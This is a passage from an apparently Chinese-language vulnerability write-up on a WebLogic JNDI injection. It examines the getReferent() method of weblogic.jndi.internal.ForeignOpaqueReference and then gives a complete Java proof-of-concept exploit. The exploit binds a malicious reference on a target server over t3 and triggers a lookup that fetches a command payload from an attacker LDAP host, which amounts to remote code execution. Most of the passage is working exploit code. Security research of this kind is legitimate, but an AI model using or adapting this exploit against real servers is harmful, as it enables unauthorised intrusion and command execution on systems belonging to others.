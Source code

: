 乍一看以为是前面的`weblogic.deployment.jms.ForeignOpaqueReference` ，但是这个类比它简单很多

查看该类的`getReferent()`

```java
public Object getReferent(Name name, Context ctx) throws NamingException {  
        InitialContext context;  
        if (this.jndiEnvironment == null) {  
            context = new InitialContext();  
        } else {  
            Hashtable properties = this.decrypt();  
            context = new InitialContext(properties);  
        }  

        Object retVal;  
        try {  
            retVal = context.lookup(this.remoteJNDIName);  
        } finally {  
            context.close();  
        }  

        return retVal;  
    }
```

完美！ 可用！

POC 如下：

```java
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
//import weblogic.deployment.jms.ForeignOpaqueReference; //CVE-2023-21839+CVE-2024-20931  
import weblogic.jndi.internal.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
import com.rsa.jsafe.JSAFE_InvalidUseException;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference的jndiEnvironment属性  
        Hashtable env2 = new Hashtable();  
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");  

        String ldap = "ldap://192.168.1.12:1389/Basic/Command/calc";  
        ForeignOpaqueReference f = new ForeignOpaqueReference(ldap,env2);  

        // 远程绑定ForeignOpaqueReference对象  
        c.rebind("sectest", f);  
        // lookup查询ForeignOpaqueReference对象  
        try {  
            c.lookup("sectest");  
        } catch (Exception e) {  
        }  
    }  
}
```